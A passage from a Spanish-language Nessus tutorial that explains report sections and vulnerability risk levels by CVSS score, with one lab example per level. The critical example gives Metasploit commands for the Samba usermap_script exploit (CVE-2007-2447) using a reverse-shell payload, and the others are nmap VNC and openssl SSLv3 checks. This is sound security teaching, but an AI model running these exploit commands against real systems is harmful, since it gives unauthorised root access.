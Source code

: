 - Remediations: _Nessus_ lista las recomendaciones que debes de seguir para _reparar_ algunas de las vulnerabilidades encontradas.
- History: Fecha y hora de los escaneos hecho por tu registro de escaneo.

**Y este es un escaneo básico ... _Nessus_ tienes gran cantidad de configuraciones para detallar y hacerlos más precisos.**

## Tipos de Vulnerabilidades

Nessus clasifica las vulnerabilidades en diferentes niveles de **riesgo** según su impacto y facilidad de explotación. A continuación, se explican los principales tipos y se incluye un ejemplo de cada uno.

### Crítico (CVSS 9.0 - 10.0)

Las vulnerabilidades **críticas** permiten a un atacante ejecutar código remoto sin autenticación, tomar control total del sistema o provocar fallos masivos.

**Ejemplo:** Ejecución remota de código en Samba (CVE-2007-2447):

```sh
searchsploit Samba 3.0.20
msf6 > use exploit/multi/samba/usermap_script
msf6 > set rhosts 10.0.2.5
msf6 > set payload cmd/unix/reverse
msf6 > run
```

Impacto: Permite al atacante obtener una shell remota como root, comprometiendo el sistema completamente.

### Alto (CVSS 7.0 - 8.9)

Las vulnerabilidades de alto riesgo facilitan el robo de credenciales, acceso no autorizado o denegación de servicio persistente.

Ejemplo: VNC sin autenticación, VNC permite acceso remoto a una interfaz gráfica, pero si está mal configurado, cualquiera puede conectarse.

```sh
nmap -p 5900 --script vnc-auth-check 10.0.2.5
```

Impacto: Un atacante podría acceder sin credenciales y controlar el escritorio del sistema afectado.

### Medio (CVSS 4.0 - 6.9)

Las vulnerabilidades medias pueden facilitar la recolección de información o ayudar a explotar fallos más críticos.

Ejemplo: SSL obsoleto (Versión 2 y 3 activas).

```sh
openssl s_client -connect 10.0.2.5:443 -ssl3
```
